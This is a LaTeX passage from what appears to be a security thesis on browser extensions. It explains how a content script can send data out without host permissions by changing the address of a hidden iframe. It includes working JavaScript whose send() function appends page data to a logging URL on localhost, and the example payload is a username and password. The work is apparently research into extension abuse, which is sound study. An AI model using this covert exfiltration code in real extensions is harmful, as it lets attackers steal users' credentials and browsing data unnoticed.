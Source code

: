 \documentclass[article,colorback,accentcolor=tud9c,type=bsc]{tudthesis}
\begin{document}
	First, we create a new XHR-object. Then, we open a connection to our remote server with a POST request. We set the correct content type of our request in order that our server is able to decrypt the request's parameter body. And finally, we send our message. \\
	
	For our extensions we decided against using XMLHttpRequests with proper host permissions to transfer the data. It is possible to achieve the same using only a content script without the need for any host permissions. For that purpose, we use the mechanics of an \textit{iframe} element. It's task is to display a web page within a web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin as the script itself. If the web page inside the iframe comes from another domain as the parent web page, the iframe's JavaScript can not access the parent web page. The same applies in reverse. In conclusion, if we manipulate the target URL of an iframe, we are able to send data to our remote server. It may look like we can not receive any data in return because the Same Origin Policy blocks our content script to access the iframe. But we are able to bypass the policy using the \textit{Window.postMessage()} method. It allows us to exchange messages between the iframe and our content script. We implemented a method \texttt{send()} that transfers our data with the described strategy: \\
	
	\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);

function send(data) {
  data += "&url=" + encodeURIComponent(window.location.href);
  iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
	\end{lstlisting}
	
	In the first three lines, we create a new iframe element, turn it invisible by setting it's \texttt{style} attribute, and append it to the web pages body element. In line 5 we define the method \texttt{send(data)} that takes a string as parameter encoded in the standard URL parameter notation \footnote{World Wide Web Consortium URL specifications: \url{https://url.spec.whatwg.org/}}. For example: \texttt{username=some@mail.net\&password=Abcd1234}. Inside the method, we append the current web page's URL to the outgoing data to later identify the data's origin. And finally on line 7, we set the \texttt{src} attribute of our previously created iframe to the URL of our remote server and add the data as parameters. At this point it is important that the data string is encoded correctly. Otherwise, the receiving server could not correctly decode the request URL. \\
	
\end{document}
